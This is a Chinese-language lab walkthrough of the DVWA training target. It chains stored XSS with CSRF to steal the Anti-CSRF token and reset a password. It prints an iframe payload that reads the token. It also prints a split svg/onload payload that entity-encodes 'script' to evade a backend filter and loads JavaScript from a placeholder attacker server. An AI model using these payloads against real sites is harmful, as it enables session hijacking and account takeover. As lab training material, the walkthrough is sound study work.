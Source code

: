 由于跨域是不能实现的,所以我们要将攻击代码注入到 dvwa 靶机中,才有可能完成攻击.下面利用 High 级别的存储型 XSS 漏洞协助获取 Anti-CSRF token(因为这里的 XSS 注入有长度限制,不能够注入完整的攻击脚本,所以只获取 Anti-CSRF token).

注入代码如下
`<iframe src="../csrf" onload=alert(frames[0].document.getElementsByName('user_token')[0].value)>`

**另类通关**

通过 XSS 获得 token 之后修改密码
同等级的 XSS-Stored $name 可被我们利用做 XSS,这样就可以配合 CSRF 来重置用户密码了.
需要先说明一下 DVWA 的数据库设计,guestbook 表的 name 字段类型为 varchar(100),也就是说最多 name 只能写入 100 个字符,超过的字符会被数据库抛弃不存储.

由于100个字符的限制,将payload分成多份提交
```js
<svg/onload="s='&#115;&#99;&#114;&#105;&#112;&#116;'">  # 事件内可以解析ASCII编码后的字符串
<svg/onload="j=document.createElement(s)">  # 拼接出一个script来引入外部js
<svg/onload="j.src='http://<服务器B>/x.js'">
<svg/onload="document.body.appendChild(j)">
```
这样就可以绕过后端的正则过滤

为了方便测试,在 x.js 里只写了 `alert('HelloDVWA')`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/dvwa/dvwa82.png)
